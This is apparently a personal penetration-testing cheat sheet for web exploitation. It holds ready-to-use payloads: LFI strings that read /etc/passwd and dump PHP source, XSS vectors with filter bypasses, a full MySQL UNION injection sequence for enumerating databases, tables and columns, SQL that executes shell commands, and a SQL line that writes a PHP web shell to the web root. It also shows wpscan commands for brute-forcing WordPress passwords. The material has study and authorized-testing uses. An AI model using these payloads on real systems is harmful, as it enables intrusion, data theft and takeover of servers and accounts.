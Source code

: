 # Exploitation
Tools and options I use for reconnaissance:
- [Web](#web)
  - [Shell](#shell)
  - [LFI](#lfi)
  - [XSS](#xss)
  - [SQL Injection](#sql-injection)
  - [Wordpress](#wordpress)

----

## Web
Techniques and tools I use for web exploitations.

### Shell
Usefull webshells on Kali: `/usr/share/webshells/`

### LFI 
###### LFI = Local File Inclusion.  

Example scenario:   
```bash
http://<target>/index.php?parameter=value
```

Validate LFI:   
```bash
http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index
# OR
http://<target>/index.php?page=../../../../../../../../etc/passwd
```

Useful links:   
- [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
- [Seclist LFI intruder](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)


### XSS
Verify XSS:  
```javascript
<script>alert('XSS')</script>

//OR
"><script>alert('XSS')</script>">

//OR
<script>alert(String.fromCharCode(88,83,83))</script>
```

Bypass filter of tag script:   
```javascript
" onload="alert(String.fromCharCode(88,83,83))

//OR
" onload="alert('XSS')
```

**nope** is not a valid image source, so this cause an error an triggers the `onerror`.
```javascript
<img src='nope' onerror=alert("XSS")>
```

Useful links:  
- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [Seclist XSS](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)


### SQL Injection
###### All examples are with MySQL syntax!
Verify SQL injection: add a simple quote`'`. 
```bash
# Examples
http://target.com/path/?id=5'
```

Sorting columns to find maximum column:
```bash
http://target.com/path/?id=-1 order by 1
http://target.com/path/?id=-1 order by 2
http://target.com/path/?id=-1 order by 3
http://target.com/path/?id=-1 order by 4
# ...
# Try until it stops returing errors, now we have the column count
```

Verify injectable column:  
```bash
http://target.com/path/?id=-1 union select 1, 2, 3, 4
# Select count is depending on the table, maybe try the previous example
# One of the columns will be printed with the respective number
```

Discover various informations:  
```bash
# Discover version
http://target.com/path/?id=-1 union select 1, 2, 3, version()

# Discover database name
http://target.com/path/?id=-1 union select 1, 2, 3, database()

# Discover logged in usernames
http://target.com/path/?id=-1 union select 1, 2, 3, current_user()

# Discover databases
http://target.com/path/?id=-1 union select 1, 2, 3, schema_name from information_schema.schemata

# Discover table names of database
http://target.com/path/?id=-1 union select 1, 2, 3, table_name from information_schema.tables where table_schema="database_name"

# Discover columns of database
http://target.com/path/?id=-1 union select 1, 2, 3, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"
```

Execute shell commands:
```sql
# Example usage
SELECT trim(trailing char(0x00) from exec_cmd("echo 'Hello World'"));

# Decode base64 string and write to file
SELECT trim(trailing char(0x00) from exec_cmd("echo 'SGVsbG8gV29ybGQK' | base64 -d >> /tmp/test.txt"));
```

Create a web shell:
```sql
SELECT "<?php system($_GET['c']); ?>" into outfile "/var/www/html/shell.php"
```


### Wordpress
Enumerate wordpress page:
```bash
$ wpscan --url <URL> -o <FILE>
```

Bruteforce password:
```bash
$ wpscan --url <URL> --usernames <USERNAME> --passwords <WORDLIST>
```

